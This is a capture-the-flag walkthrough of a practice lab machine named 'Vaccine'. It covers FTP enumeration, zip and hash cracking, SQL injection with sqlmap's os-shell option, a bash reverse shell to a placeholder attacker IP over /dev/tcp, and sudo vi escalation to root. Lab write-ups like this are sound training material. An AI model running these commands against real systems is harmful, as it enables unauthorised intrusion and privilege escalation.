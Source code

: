 New machine vaccine 

	First, let’s start the machine first and connect starting point server to local machine, if you are using HTB parrot machine then you don’t need to connect it.

Machine is boot up let’s enumerate the machine. 

First tart with nmap to find open port.
	Suod nmap -sC -sV 10.129.88.89 

![image](https://user-images.githubusercontent.com/49148722/212783373-47721b0e-3cd2-43fd-aaaa-090505a33563.png) 


Here we can see there are three ports open. We don’t have any credential for SSH. So lets go for FTP bus using anonymous user.

 ![image](https://user-images.githubusercontent.com/49148722/212783406-58e79f87-fc72-42fa-a7c6-704b2b5acf79.png)


As we can see there is one file is stored in ftp server, let’s get that file into our machine and see wat it contains.

I tried to unzip file, but it contains password.
 
 ![image](https://user-images.githubusercontent.com/49148722/212783418-08abb36d-54fe-4264-aeaf-9710a54f030d.png)


To crack the password, we can use john the ripper which is the best tool for password guessing.
In order to crack password successfully we need to convert zip into hash. For that we will use ziptojohn.

Now, we will type following command. 
John rockyou.txt zip.hashes

 


As we can see we crack password successfully 741852963
 

Unzip file by using the password.
 ![image](https://user-images.githubusercontent.com/49148722/212783442-01cad596-7d9d-4323-92a1-ca02a9c280d1.png)


Now we will read index.php file first.
 ![image](https://user-images.githubusercontent.com/49148722/212783448-51ee214f-eaa2-474e-a7d0-e0c8bd4e1ba7.png)


We can see the credentials of admin: 2cb42f8734ea607eefed3b70af13bbd3. Which might be able to use. Let’s creak hash first and see what it contains.

![image](https://user-images.githubusercontent.com/49148722/212783464-0d28801a-8e8e-4ddd-8914-c8163d972357.png)

We can use online tool to crack hash.

As we got plain password qwerty789.

Now we will go to web browser and login by using this password.


 ![image](https://user-images.githubusercontent.com/49148722/212783471-bda4c8b4-51f0-4170-94ba-9dea0c53c25c.png)


We login successfully. As we see here dashboard doesn’t contain anything. 
 ![image](https://user-images.githubusercontent.com/49148722/212783479-f62062c3-62e3-40e0-8cfb-b6a46f25a768.png)


By passing the query in search box. It seems sql injectable. So let use sqlmap to test it.
 
![image](https://user-images.githubusercontent.com/49148722/212783493-6ab4b100-8763-4646-bbc6-74883031a8fc.png)


First grep cookies and set into sqlmap.

 ![image](https://user-images.githubusercontent.com/49148722/212783500-721954c1-d3eb-46d9-af58-614e199e438d.png)



Here is the syntax for sqlmap : sqlmap “http://10.129.69.231/dashboard.php?search=1” --cookie="PHPSESSID=3r6efmf03uuo8cm2cqt47ddmq7" --batch
![image](https://user-images.githubusercontent.com/49148722/212783515-55f4ba20-1eb0-4ac1-ba3c-32cda0b2a93b.png)
 

The tool confirmed that the target is vulnerable to SQL injection, which is everything we needed to know. We will run the sqlmap once more, where we are going to provide the --os-shell flag, where we will be able to perform command injection:

![image](https://user-images.githubusercontent.com/49148722/212783522-20a039bb-d6ae-4c32-b7c8-4fd69fc9e808.png)

 

We got the shell; it is not stable. 
We will run the following command to establish connection with our local machine. But first we need to start listener port by using net cat.

Nc -lvnp 443
 ![image](https://user-images.githubusercontent.com/49148722/212783530-339b7217-70a6-45ef-8e2d-7ab4721c6b2b.png)


On the other hand, write a bash comment to establish connection.
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
![image](https://user-images.githubusercontent.com/49148722/212783547-8b9b6ffe-e886-41a4-bfd3-047bd246144f.png)

 
As we can see here connection has establish.
![image](https://user-images.githubusercontent.com/49148722/212783561-a52ea866-02bd-4740-88aa-5e82523d6035.png)

 

Let’s find user.txt
![image](https://user-images.githubusercontent.com/49148722/212783570-75a5b5d8-204d-4a50-8fc0-65fed869d523.png)

 

Machin is using php and sql so let’s find in /var/www/html library so we could get any important information.
![image](https://user-images.githubusercontent.com/49148722/212783584-ce00ac61-fdfe-4d4d-ab41-a68d3c194cf6.png)

 

Check each folder, we found  interesting thing in dashboard.php
![image](https://user-images.githubusercontent.com/49148722/212783607-72fe84e0-a449-4fea-b158-efb97912b346.png)

P@s5w0rd!

Now we have password for the ssh server let’s connect with it.
 ![image](https://user-images.githubusercontent.com/49148722/212783624-81f8cb17-8ad0-44be-82c0-4ebd6114d3d2.png)


We will type sudo -l to see what privilege we have.
![image](https://user-images.githubusercontent.com/49148722/212783635-0b302cf7-508a-417d-9a7a-fb8d6bf79b72.png)

 

So we have sudo privilege to edit pg_hba.conf file using vi by running sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
![image](https://user-images.githubusercontent.com/49148722/212783660-4173e568-4adb-4379-b100-37f107c1c3d0.png)

 

We will go to GTFObins to find if we can abuse privilege.
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
	sudo vi -c ':!/bin/sh' /dev/null
 ![image](https://user-images.githubusercontent.com/49148722/212783690-0b3a6ddf-5a93-4533-b480-9d164cfb92cf.png)

We are unable to execute command because sudo is restricted.

There’re alternative ways in GTFObins.

vi
:set shell=/bin/sh
:shell
First tyee vi file and then type :set shell=/bin/sh

 ![image](https://user-images.githubusercontent.com/49148722/212783704-fea40fa5-9a3f-4476-939d-3825f63744af.png)


Then type :shell
![image](https://user-images.githubusercontent.com/49148722/212783717-d091c2fa-5fba-4967-aa50-6ecd5f5eda9c.png)

 

We got root privilege now we are in root directory.

![image](https://user-images.githubusercontent.com/49148722/212783730-ff52260b-9ec3-4836-b21f-7189b2ca00b9.png)


Let’s jump into root directory and find flag
 
![image](https://user-images.githubusercontent.com/49148722/212783740-d22241a6-97f1-418d-b127-02d1458241fc.png)
